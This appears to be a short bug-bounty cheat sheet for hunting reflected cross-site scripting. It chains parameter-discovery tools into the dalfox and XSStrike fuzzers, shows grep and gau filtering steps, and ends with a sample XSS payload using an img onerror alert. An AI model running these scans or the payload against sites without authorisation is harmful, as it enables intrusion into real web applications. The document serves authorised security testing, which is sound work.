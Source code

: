 ## Get Parameter as much as possible

1. https://github.com/devanshbatham/ParamSpider
2. gospider -S tageturls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'|grep "=" | qsreplace -a | dalfox pipe -o result.txt
3. Waybackurls | gau
4. https://github.com/s0md3v/Arjun
5. https://github.com/hakluke/hakrawler
6. https://github.com/PortSwigger/param-miner

Combine all in a file and remove duplicates.

## Run XSS fuzzer
1. https://github.com/s0md3v/XSStrike
2. https://github.com/hahwul/dalfox


Resources:
- https://blog.yeswehack.com/yeswerhackers/parameter-discovery-quick-guide-to-start/
- https://infosecwriteups.com/tale-of-my-first-xss-27f622bc47c0
<hr>

## dalfox usage:
```
gf xss domain.txt | grep -Eo 'https?://[^\"]+' > domain.txt
dalfox file domain.txt -w 20 --silence
```

<hr>

## another technique to find XSS

- Scrape all urls from the domain using gau
- then sort the result using grep command: `cat url.txt | grep “utm_”`
- do testing

resources:
- https://santoshdbobade.medium.com/how-i-got-reflected-cross-site-scripting-rxss-on-manchester-metropolitan-university-700b36cb4f53


<hr>

## Custom useful XSS Attack Vector
```
"><img/src=x onerror=alert(/XSS/)//
```
